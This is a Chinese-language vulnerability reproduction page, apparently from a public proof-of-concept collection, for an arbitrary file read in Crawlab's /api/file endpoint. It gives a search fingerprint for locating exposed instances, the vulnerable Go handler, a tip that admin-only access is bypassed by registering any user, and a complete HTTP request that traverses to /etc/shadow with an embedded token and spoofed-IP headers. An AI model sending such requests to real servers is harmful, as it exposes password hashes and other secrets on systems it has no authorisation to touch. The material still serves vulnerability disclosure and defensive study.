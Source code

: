 # Crawlab file 任意文件读取漏洞

## 漏洞描述

Crawlab 后台 /api/file接口 存在任意文件读取漏洞，攻击者通过漏洞就可以读取服务器中的任意文件

## 漏洞影响

<a-checkbox checked>Crawlab v0.0.1</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="Crawlab"</a-checkbox></br>

## 漏洞复现

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639304614319-67b65509-55dd-4205-98cd-1ebdfb164e7b.png)

首先查看路由位置 main.go 文件 中的 file 接口对应的函数

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305536844-3306cb0b-059b-42c1-8c21-c651653d92e9.png)

```python
package routes

import (
	"crawlab/utils"
	"github.com/gin-gonic/gin"
	"io/ioutil"
	"net/http"
)

// @Summary Get file
// @Description Get file
// @Tags file
// @Produce json
// @Param Authorization header string true "Authorization token"
// @Success 200 json string Response
// @Failure 400 json string Response
// @Router /file [get]
func GetFile(c *gin.Context) {
	path := c.Query("path")
	fileBytes, err := ioutil.ReadFile(path)
	if err != nil {
		HandleError(http.StatusInternalServerError, c, err)
	}
	c.JSON(http.StatusOK, Response{
		Status:  "ok",
		Message: "success",
		Data:    utils.BytesToString(fileBytes),
	})
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305576972-90f4db89-a5b3-47e7-89da-a16927d5bec8.png)

接口调用为后台才可调用，通过任意用户添加可以完成绕过

path参数可控，发送Get请求读取任意文件

```python
GET /api/file?path=../../etc/shadow HTTP/1.1
Host: 
Content-Length: 0
Accept: application/json, text/plain, */*
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6IjYwZGQxOWU0YmZjNzg3MDAxZDk1NjBjOSIsIm5iZiI6MTYzOTMwNTI2MiwidXNlcm5hbWUiOiJhZG1pbiJ9.mFRAwXN-QqTmFmPAxgFEJhVXwxVuxJMepHe4khADfgk
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.93 Safari/537.36
Content-Type: application/json;charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: Hm_lvt_c35e3a563a06caee2524902c81975add=1639222117,1639278935; Hm_lpvt_c35e3a563a06caee2524902c81975add=1639278935
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1639305725285-1b2776a5-d47d-46e1-922f-e2460388e3f8.png)